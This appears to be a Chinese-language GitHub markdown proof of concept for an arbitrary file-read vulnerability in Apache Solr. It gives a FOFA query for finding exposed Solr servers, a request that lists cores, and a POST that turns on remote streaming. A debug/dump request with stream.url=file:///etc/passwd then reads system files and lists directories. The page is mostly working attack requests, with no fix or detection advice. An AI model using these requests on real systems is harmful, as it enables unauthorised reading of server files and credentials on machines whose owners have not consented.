



# Apache Solr 全版本任意读取文件漏洞
## 资产搜索
fofa app="Solr" || app="Apache-Solr"
## POC
- url访问：  
`http://ip:port/solr/admin/cores?indexInfo=false&wt=json`
  
- POST请求：
```url
POST /solr/{name}/config

{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```
出现这个报错说明漏洞存在
  
- 任意文件读取：
```url
POST /solr/{name}/debug/dump?param=ContentStreams
Content-Type: application/x-www-form-urlencoded

stream.url=file:///etc/passwd
```
  
路径写文件夹的话会列举出来文件夹下面的东西，和ls一样。